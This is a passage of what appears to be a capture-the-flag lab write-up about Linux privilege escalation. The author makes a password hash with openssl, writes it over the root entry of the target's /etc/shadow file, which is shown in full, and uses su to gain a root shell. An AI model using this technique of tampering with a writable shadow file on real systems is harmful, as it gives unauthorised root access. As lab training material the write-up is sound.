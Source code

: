 ```bash
openssl passwd -6 -salt xyz cat
```

And then I replaced the root one:

```bash
root:$6$xyz$SY6bQy3sDajZ0bHnCG35i3R6ykQksyM6FsKDhwWIi6PAr1tmNG2IIkuMaKq.eZtztGCTScNGLxe9Fdzn4CBMK1:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
news:*:18561:0:99999:7:::
uucp:*:18561:0:99999:7:::
proxy:*:18561:0:99999:7:::
www-data:*:18561:0:99999:7:::
backup:*:18561:0:99999:7:::
list:*:18561:0:99999:7:::
irc:*:18561:0:99999:7:::
gnats:*:18561:0:99999:7:::
nobody:*:18561:0:99999:7:::
systemd-network:*:18561:0:99999:7:::
systemd-resolve:*:18561:0:99999:7:::
systemd-timesync:*:18561:0:99999:7:::
messagebus:*:18561:0:99999:7:::
syslog:*:18561:0:99999:7:::
_apt:*:18561:0:99999:7:::
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
sshd:*:18561:0:99999:7:::
landscape:*:18561:0:99999:7:::
pollinate:*:18561:0:99999:7:::
ec2-instance-connect:!:18561:0:99999:7:::
systemd-coredump:!!:19502::::::
ubuntu:<redacted>:19519:0:99999:7:::
lxd:!:19502::::::
mysql:!:19502:0:99999:7:::
zeamkish:<redacted>.:19516:0:99999:7:::
ftp:*:19519:0:99999:7:::
bind:*:19523:0:99999:7:::
Debian-snmp:!:19523:0:99999:7:::
redis:*:19523:0:99999:7:::
mosquitto:*:19523:0:99999:7:::
fwupd-refresh:*:19544:0:99999:7:::
```

So now I can su as the root and get the flag in the root directory.

```bash
su root
Password: cat
root@ip-10-10-108-101:/home/zeamkish#
```